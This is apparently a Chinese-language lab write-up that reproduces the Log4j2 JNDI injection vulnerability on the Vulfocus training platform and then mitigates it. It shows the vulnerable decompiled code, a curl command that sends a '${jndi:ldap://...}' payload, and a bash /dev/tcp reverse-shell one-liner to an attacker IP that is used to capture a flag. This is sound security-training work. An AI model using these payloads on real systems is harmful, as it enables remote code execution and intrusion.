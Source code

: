 # Log4j2漏洞复现及修复

## 进入Vulfocus平台：通过克隆资源中的仓库地址来实现平台的搭建，启动vulfocus并找到log4j2漏洞，启动该漏洞
![](./启动vulfocus.png)
## 得到此漏洞的入口靶标，访问此地址正式进入当前环境测试URL
![](./log4j漏洞环境启动.png)
## 通过docker ps指令得到容器名称和ID,进入到此容器的环境,同时将环境路径下的demo.jar拷贝到宿主机
![](./容器名称.png)
![](./进入容器环境.png)
![](./克隆.jar包到宿主机.png)
## 通过反编译工具得到漏洞源代码，从而分析漏洞代码部分
![](./反编译源码.png)
## 分析源码得到漏洞片段代码漏洞核心位于 /hello 接口的 logger.error() 或 logger.info() 调用处，当用户控制的 payload 参数包含 JNDI注入恶意字符串 时，会触发远程代码执行（RCE）
~~~
@GetMapping({"/hello"})
@ResponseBody
public String hello(String payload) {
    // 危险：临时启用JNDI远程代码加载（实际环境中绝对禁止！）
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLcodebase", "true");
    
    // 漏洞触发点：直接记录未过滤的用户输入
    logger.error("{}", payload);  // 使用占位符仍不安全（低版本Log4j2）
    logger.info("{}", payload);
    logger.info(payload);         // 直接记录风险最高
    logger.error(payload);
    return "ok";
}
~~~
## 攻击流程：
### 1.应用记录日志时解析 ${jndi:ldap://...}。
### 2.向恶意LDAP服务器请求 Exploit.class。
### 3.加载并执行远程恶意代码。

## 验证漏洞可利用性：使用Poc手动测试漏洞，其中利用dnslog.cn生成随机域名
![](./获取dns.png)
## 使用curl指令触发一次域名解析请求
![](./触发域名解析请求.png)
![](./请求记录.png)

### 此处我通过运行```curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$jndi:ldap://ongzd7.dnslog.cn/asas}"'```会出现报错，通过询问大模型得知漏洞入口靶标的端口不支持POST方法，于是更改了指令运行
![](./报错分析.png)

## 漏洞利用效果评估：通过在靶机中的单独测试有效负载来连接攻击机反弹窗口，验证反弹shell的成功利用
![](./反弹shell.png)
## 通过对靶机的监听可以在/tmp目录下得到靶标文件，里面记录了漏洞flag
![](./漏洞flag.png)

### 其中遇到了运行```bash -i >& /dev/tcp/192.168.164.4/7777 0>&1```进行反弹窗口连接报错问题，后来发现是shell解释器的环境不支持该语法，出现了重镜像语法错误
![](./负载测试报错分析.png)
![](./靶机测试有效负载报错.png)
### 于是替换显式使用 bash 执行命令即可成功。

## 漏洞缓解并验证：改变漏洞环境变量，重新解析dns请求发现没有更新记录
![](./修改环境变量.png)
![](./验证变量修改.png)
![](./无解析请求.png)
